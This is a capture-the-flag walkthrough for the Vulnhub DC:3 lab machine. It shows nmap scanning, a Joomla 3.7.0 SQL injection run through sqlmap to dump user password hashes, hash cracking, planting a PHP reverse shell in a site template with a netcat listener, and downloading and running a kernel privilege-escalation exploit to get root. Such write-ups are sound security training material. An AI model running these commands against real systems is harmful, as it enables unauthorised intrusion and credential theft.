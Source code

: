 # DC:3 CTF Walkthrough (Vulnhub) 

###### <p align="center"> *This is official repository maintained by me*</center> </p>
###### <p align="center"> *[yigitdrbk](https://www.instagram.com/yigitdrbk/) *</center> </p>

Dc:3 is a CTF created by DCAU. You can find the technical information about this CTF on the Vulnhub page. First of all, make sure to download and install the correct OVA file from Vulnhub. (https://download.vulnhub.com/dc/DC-3-2.zip).

As mentioned in the description on the Vulnhub page, it is similar to beginner CTFs, but it requires knowledge of Linux and penetration testing tools like sqlmap , netcat and nmap.

## 1-Recon
After setting your machine’s IP to work on your network, you’re ready to scan. If you can’t reach your machine from another virtual machine or your own computer, you should check your VirtualBox network settings. If you’re trying to reach your machine from another VirtualBox instance, both machines’ network settings should be set to Bridged Adapter or NAT Network. Once that’s configured, you’re ready to start scanning.

To find an IP address on the same network, we can use Nmap or Netdiscover to scan.

```bash
nmap -sn 10.0.2.0/24 or netdiscover -r 10.0.2.0/24
```

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*kGwQw0OZ-z3KaE0qCHMbYg.png "DC3")

If you are not sure if this is Ctf machine ip or your ip , just run ifconfig. I make sure this is my ip now I can scan ports, search for directories, view the source page, etc. I started with Nmap, but you can also use Rustscan to quickly find open ports.

```bash
nmap -p- -vv <Machine-Ip> -oN openports
```

Also i checked source code but there was nothing important. After finding the open ports, I performed a script scan and a version scan. Additionally, scanning for vulnerabilities is important at this stage.

```bash
nmap -PN -sS -sV --script vuln -p 80 <Machine-Ip> -oN finalscan
```
![DC3](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*sxzrOCgpZUy2-SUi57b19w.png "DC3")

Only port 80 is running an Apache HTTPD 2.4.18 server. During my scan, I found some suspicious folders, so there was no need to use tools like Dirsearch or Dirb

Importantly, I discovered a Cve related to an SQL injection vulnerability in this Joomla version(3.7.0). Joomla is a Cms, similar to WordPress or Drupal.

Since Drupal was on DC:1, I had some prior knowledge of CMS platforms.

Afterward, I visited the website, where there was only one note.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/0*DltvuQgyCsY71V3Z.png "DC3")

I tried the admin directory I found in the Nmap script scan. The administrator directory also had a login panel. Since I knew about the SQL injection vulnerability, I used SQLmap.

## 2- Exploitation

First, I tried msfconsole and searched for Joomla 3.7.0. There was an exploit available, but it didn’t work for some reason. Next, I searched for Joomla 3.7.0 on searchsploit and found the vulnerable URL. I replaced localhost with my CTF machine’s IP address.

![DC3](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*dPWMC75jkVxW4taJ1GIKXQ.png "DC3")

```bash
http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```
The -m parameter in Searchsploit copies the exploit’s text file to your directory. After I found the vulnerable URL and modified it, I tried to run SQLmap. Since I wasn’t familiar with SQLmap, I did some research and discovered that I needed to find the table names first, which I would use later.

```bash
sqlmap -u "http://10.0.2.12/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
The above command’s result gave me 6 table name.

```bash
Table: #__users
[6 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| name     | non-numeric |
| email    | non-numeric |
| id       | numeric     |
| params   | non-numeric |
| password | non-numeric |
| username | non-numeric |
+----------+-------------+
```
Then, I tried to exploit the #__users table using SQLmap. My goal was to gather the users and their passwords with the command below:

```bash
sqlmap -u "http://10.0.2.12/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb -T '#__users' -C name,password --dump
```
![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*qInxXcDo6B764ba-luSqJA.png "DC3")

Now I have admin hash. I cracked with john. It’s too easy to do. Just write your hash into a file and run the “ john <file>” command. As below :

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*q8EwThdf3juKA-_jsyXkRw.png "DC3")

With the password snoopy, I tried to log in to the administrator directory. I successfully accessed the admin panel of the CMS.

I edited the index.php file from the templates page, which was a bit challenging to find. I copied the entire index.php code from the website and replaced it with a PHP reverse shell. The PHP reverse shell can be found in the /usr/share/webshells/php directory. If you can’t find it on your machine or if you’re not using Kali, you can simply search for it on the internet.

Don’t forget to modify your payload; your IP and port must be correct. I started a netcat session with rlwrap so I could use my previous commands.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*G21jHVvANo257faztUmS1g.png "DC3")

```bash
rlwrap nc -lvnp 1234
```
I used curl command to run index.php file but it was not necessary , you can just visit the page on browser.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
Basic shell commands to get a more proper shell. And now it’s time to privilege our escalations.

## 3- Privilege escalation

There was nothing on the machine to privilege escalation so i checked what am i using.

![DC3](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ZbOzp_aNOtfc14UXzgF0Nw.png "DC3")

I was using the outdated version of Ubuntu. With some quick resarch on searchsploit i found the report.


![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*aIoqKw6Cb5tU9GizFQ-8zA.png "DC3")

“Searchsploit -m linux/local/39772.txt “ located report to my current directory. But this was just a report thing not a payload. But there was links to payload so i tried to git first.

![DC3](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*VY4s4XUL_tuGal5KOCeugg.png "DC3")

Exploit-DB Mirror: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip

However, the Git link was just a report as well. I tried to use the zip link and downloaded it to my computer. I hosted my computer using the command php -S <myip>:8000 so I could access this zip file through the www-data shell. However, I couldn't access it due to permissions and restrictions. I then attempted to download the zip file directly to the CTF machine, but that didn’t work either.

I noticed the /var/tmp directory, which is a globally writable directory, so I could download my zip file there. I used the following command:

```bash
git clone <above exploit-db link>
```

And i have zip file downloaded. I extracted it and used.

```bash
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
```

And there was the exploit files.

![DC3](https://miro.medium.com/v2/resize:fit:294/format:webp/1*t4cv4eCjc4UCyHDcVx1fEw.png "DC3")

I run the compile.sh file and then run the doubleput file.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*VsyJvE0KOvf4CJykZWr_oQ.png "DC3")

And now I am root so I can cd to root directory and read the flag.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*4zqOZ9xigkGWxebWyqR7dw.png "DC3")

Developer / Author: [yigitdrbk](https://www.instagram.com/yigitdrbk/)
